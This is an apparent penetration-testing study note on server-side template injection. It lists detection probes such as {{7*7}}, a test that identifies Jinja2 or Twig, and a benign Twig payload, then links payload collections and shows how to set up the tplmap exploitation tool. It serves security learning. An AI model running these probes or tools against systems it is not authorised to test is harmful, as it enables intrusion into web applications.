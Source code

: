 ## Server-Side Template Injections (SSTI)
![[SSTI Flow Chart.png]]
#### Mathematical Expressions for detecting SSTI
```html
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
...
```
Looking for it to respond with an output of "49"
### SSTI Exploitation - Example 1
![[ssti inject form.png]]

![[ssti success.png]]
The "49" output indicates the form field may be vulnerable to SSTI. The user's input is submitted via the `name` parameter and through a POST request
#### Input `{{7*'7'}}` to determine template engine
Success indicates it's either a Jinja2 or a Twig template engine
#### Twig-specific payload
```php
{{_self.env.display("TEST")}}
```
![[Twig inject SSTI.png]]
The field is a Twig engine
#### For an extensive list of template engine-specific payloads, please refer to the following resources:
- [PayloadsAllTheThings - Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [HackTricks - SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
#### Downloading tplmap.py
```Shell
git clone https://github.com/epinna/tplmap.git
```

```Shell
cd tplmap
```

```Shell
pip install virtualenv
```

```Shell
virtualenv -p python2 venv
```

```Shell
source venv/bin/activate
```
